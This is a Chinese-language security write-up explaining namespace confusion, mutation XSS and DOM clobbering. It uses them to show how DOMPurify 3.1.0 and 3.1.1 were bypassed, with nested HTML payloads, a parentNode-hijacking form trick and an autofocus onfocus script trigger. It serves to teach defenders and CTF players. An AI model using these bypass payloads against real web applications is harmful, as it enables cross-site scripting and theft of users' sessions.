# 从两次DOMPurify绕过探索绕过xss过滤器之法-先知社区

> **来源**: https://xz.aliyun.com/news/18231  
> **文章ID**: 18231

---

## 前言

抛开转义的绕过不谈，在网站中注入用户html代码的需求是长期存在的，所以使用安全的xss过滤器非常必要。从安全考虑，使用自写的过滤器总是十分危险的，而市面上已经有比较成熟的过滤器比如DOMPurify（当然在其配置错误时也会存在安全问题，这并非我们今天的重点）。这篇文章主要介绍命名空间、MXSS、Dom cloberring的基础概念和用法，最终会解释两次DOMPurify绕过的原理。通过这篇文章，我们能洞见绕过xss过滤器的常见手段，从而在相关题目、场景下有相应思路。

## 命名空间混淆

存在三种命名空间，元素在它们中解析的方式各不相同。  
`<html>`HTML namespace  
`<svg>` SVG namespace  
`<math>`MathML namespace

比如`<style>`中的内容在html中被当作text，但是在svg或MathML中被当作html，命名空间混淆其实就是在mxss突变后（浏览器第二次解析）命名空间发生改变。



这个Dom浏览器的网址在这里，十分好用的一个工具，甚至内置了DOMPurify各个版本，允许自定义配置：

<https://yeswehack.github.io/Dom-Explorer/>

### **命名空间集成点**

html集成点允许在其他命名空间插入html：

```
在MathML中
<annotation-xml>
<foreignObject>
在svg中
<desc>
<title>
```

比如：

```
<svg><title><table><caption>0wlle0n</caption></table></title></svg>
```

在svg中通过`<title>`标签插入了一个table

## MXSS

mxss即突变xss让过滤器在清理用户payload时十分困难。比如对于DOMPurify是专门用来做清理的库，所以它的解析行为和浏览器一致，（如果误用beautifulsoup这样的库就会因解析不一致问题而无法做到安全地过滤）。  
但mxss的payload被相同的解析器连续解析两次，却会出现不一样的结果。

### 一个简单例子

第一次解析时`</form><form id="inner">`位置反了，被解析器换过来，而第二次解析时又因为`form`不能嵌套而删除form，解析器十分想纠正dom树，但同时也造成了突变。

### <caption>的突变

`<caption>`可以用来做类似弹出的操作  
根据[标题插入模式](https://html.spec.whatwg.org/#parsing-main-incaption)定义，如果解析器找到 `<caption>` 开始标记，则需要从**打开元素堆栈**中**弹出元素**，直到弹出 `<caption>` 元素。

```
<table>
  <caption>
    <div>before</div>
    <caption></caption>
    <div>after</div>
  </caption>
</table>

```

  
这个过程有些难理解，详细原理可以看[in caption insertion mode](https://html.spec.whatwg.org/#parsing-main-incaption)。大概是从`<caption>`开始，后面被弹出的元素在下面叠加，直到下一个`</caption>`，然后再后面的内容直接被弹出了`<table>`。  
而这种弹出与扁平化就完全相反了，它不会考虑弹出标签的命名空间，因为它们只是开放元素堆栈的一部分。

```
<table>
  <caption>
    <svg>
      <title>
        <caption></caption>
      </title>
      <style><a id="</style>"></a></style>
    </svg>
  </caption>
</table>
<!--看到了吗，<title>用来在svg里面插入html--!>
```

  
`<style>`本来是svg命名空间的，`<a id=`被当作html，`</style>`被当作属性，但被弹入html命名空间后`<a id=`成了text，`</style>`直接闭合了`<style>`，使恶意的``露出来。



但是这还只发生了一次突变，还是会被过滤器轻松识破，但如果嵌套一层其他突变，在这次突变后caption还没发生突变，恶意结点就能继续伪装起来。

### Node flattening嵌套结点扁平化

  
当我们嵌套上限数量(512)的标签时，浏览器不会继续解析，而会进行flattening。

  
其实就是把第513层的内容拿出来，避免超过512层，但有趣的是，拿出的元素的命名空间竟然没有改变。  
同时，如果a标签肯定是不允许嵌套的，直接嵌套`<a>`会被弹出：



但是被扁平化的a不会再被弹出。



## DOM clobbering

### 原理

你在 HTML 里面设定一个有 id 的元素之后，在 JavaScript 里面就可以直接访问到它：

```
<button id="btn">click me</button>
<script>
  console.log(window.btn);
  console.log(btn);
</script>
<!-- <button id="btn">click me</button> -->
<!-- <button id="btn">click me</button> -->
```

直接用 `btn` 也可以，因为当前的 scope 找不到就会往上找，一路找到 `window`。

除了 id 可以直接用 `window` 访问到以外，`<embed>`， `<form>`， `` 跟 `<object>` 这四个标签用 name 也可以存取到：

```

<script>
  console.log(window.btn);
  console.log(btn);
</script>
<!--  -->
<!--  -->
```

DOM clobbering也是攻击xss过滤器的一个重要特性，利用这个特性我们可以覆盖一些值来影响过滤器，但是想攻击的变量已经存在的话，用 DOM 是覆盖不掉的，比如说`window.name`全局变量一直存在，无法覆盖，或者以下情况：

```

<script>
  btn="defined"
  console.log(window.btn);
  console.log(btn);
</script>
// defined
// defined
```

但是如果过滤器中有这样赋值：

```
window.conf=window.conf||{url:"https://xxx.com"}
```

注意到window.conf并非一开始已存在的全局变量，我们使用DOM clobbering覆盖掉就会使其为非预期的初值。

同时我们也要注意，之前\_\_toString后的值都是object，十分不干净，在某些需要用到其值时无法利用

有两个特殊的标签`<base>` 跟 `<a>`：会返回url值

```
<a id="myurl" href="https://le0n.top">
  <script>
    console.log(window.myurl.toString());
    console.log(window.myurl+'');
  </script>
```

还有这里的情况也隐式地触发了toString()，ctf题目常有污染此url使bot访问指定页面的考法

```
location.href = window.myurl;
```

### 多层级DOM Clobbering

#### HTMLCollection

有多个同名id时，chrome传出htmlcollection（在 Firefox 上面并不会回传 `HTMLCollection`），此时多出了一个层级：

```
<!DOCTYPE html>
<html>
<body>
  <a id="config"></a>
  <a id="config" name="myurl" href="https://le0n.top"></a>
  <script>
    console.log(config.myurl + '')
  </script>
</body>
</html>
```

#### form

这样就污染了form.attributes，或者说是过滤器中的el.attributes（它本来应该访问到form的属性map的，但Dom cloberring的优先级竟然比它高），常用来干扰xss过滤器对属性的过滤(biosctf2025#QoutesApp)。

```
<form id=form>
    <input id=attributes>
</form>
<script>
    console.log(form.attributes);
</script>
// <input id=attributes>
```

在这种情况下使用form还有一个优点就是它本身就可以自动加载js：

```
<form id=form tabindex='-1' onfocus=alert(1) autofocus>
  <input id=attributes>
</form>
```

如果我们把 `<form>` 跟 `HTMLCollection` 结合在一起，就能够达成三层：

```
<!DOCTYPE html>
<html>
<body>
  <form id="config"></form>
  <form id="config" name="prefix">
    <input name="myurl" value="123" />
  </form>
  <script>
    console.log(config.prefix.myurl.value) //123
  </script>
</body>
</html>
```

#### iframe

当你建了一个 iframe 并且给它一个 name 的时候，用这个 name 就可以拿到 iframe 里面的 `window`，所以可以像这样：

```
<!DOCTYPE html>
<html>
<body>
  <iframe name="config" srcdoc='
    <a id="myurl"></a>
  '></iframe>
  <script>
    setTimeout(() => {
      console.log(config.myurl) // <a id="myurl"></a>
    }, 500)
  </script>
</body>
</html>
```

这边之所以会需要 setTimeout 是因为 iframe 并不是同步加载的，所以需要一些时间才能正确抓到 iframe 里面的东西。

### 污染 document

有几个元素搭配name能影响document，而且优先级很高，如：```<form>``<embed>`，甚至document.cookie都能被他们污染：

```


<script>
    console.log(document.cookie) // 
    console.log(document.getElementById) // </embed>
</script>
```

在 CTF 中，有时能和 prototype pollution 一起使用：

```
<!DOCTYPE html>
<html lang="en">
<head>
  <meta charset="utf-8">
</head>
<body>
  
  <script>
    // 假设我们已经可以污染toString
    Object.prototype.toString = () => 'token=1'
    console.log(`cookie: ${document.cookie}`) // cookie: token=1
  </script>
</body>
</html>
```

document.cookie会指向，并且这里调用其\_toString方法，toString被我们污染了，所以返回token=1。

## 实例:两个版本DOMPurify的绕过

第一个版本主要是基于mxss进行绕过，而第二个版本则是通过Dom cloberring绕过了fix增加的检测，可以说是非常好的例子了。

### DOMPurify3.1.0

用到上面提到的caption突变和嵌套结点扁平化突变：

​`<table><caption></caption></table>`  
我们先加上`<table>`来抑制`<caption>`的弹出，然后再通过扁平化把`<caption>`弹出，再下次解析时就能和上边一样把``弹入html命名空间。而DOMPurify不会把`</style>`识别成标签，所以就不会对它进行过滤。

```
<div*506>
<table>
  <caption>
    <svg>
      <title>
        <table><caption></caption></table>
      </title>
      <style><a id="</style>"></a></style>
    </svg>
  </caption>
</table>

```

第一次解析

  
第二次解析



### DOMPurify3.1.1



看出增加了deep-nesting深度探测



超过MAX\_NESTING\_DEPTH就强制删除currentNode



看完整代码，while遍历每一层标签，执行用户自定义的hook，然后sanitize这个标签，设置顶层的\_\_depth为1，以后都通过parentNode来获取上一次标签，再通过\_\_depth属性来记录层数，如果超过最大层数就移除标签。那如果我们劫持parentNode属性呢？

```
<div id="parent">
    <form id="f">
        <input name="parentNode">
    </form>
</div>
<script>
    parent.__depth = 250;
    f.parentNode.__depth; // undefined
</script>
```

类似于DOM Clobbering，我们用HTMLFormElement 的特性：浏览器会自动将 `<input>`、`<select>`、`<textarea>` 等带有 `name` 属性的元素挂载到父级 `<form>` 对象上。

我们发现f.parentNode成了undefined，直接导致了重复计数。

```
<body>
<div*252>
<form><input name="parentNode">
<div*252>
```

但是不够，差两层`(255*2=510<512)`，同时没有其他标签有这种特性了(  
于是用我们之前提到的`<form>`的突变，让第一次解析后再嵌套一层`<form>`，然后又劫持一次parentNode就能再重新计数一次，达到`255*3=765`层

```
<div*200>
<form><input name="parentNode">
<div*200>
<form></form><form><input name="parentNode">
<div*105>
<table>
  <caption>
    <svg>
      <desc>
        <table><caption></caption></table>
      </desc>
      <style><a title="</svg></style>"></a></style>
      </svg>
  </caption>
</table>
<!--<desc>和<title>一样，漏洞发现者用的<desc>--!>
```

第一次DOMPurify解析，修正`<form>`的结构，嵌套一层`<form>`重新计数两次，达到flattening，扁平化`<caption>`标签，第二次浏览器解析弹出栈中的`<style><a title="</svg></style>"></a></style>`到html中解析成恶意代码，从而绕过DOMPurify。

### DOMPurify的后续fix

主要是拦截Dom cloberring和增加了许多正则匹配（用正则来过滤mxss有着未雨绸缪的感觉），但是使用正则也会带来许多问题，可以详细看后续发现的绕过。
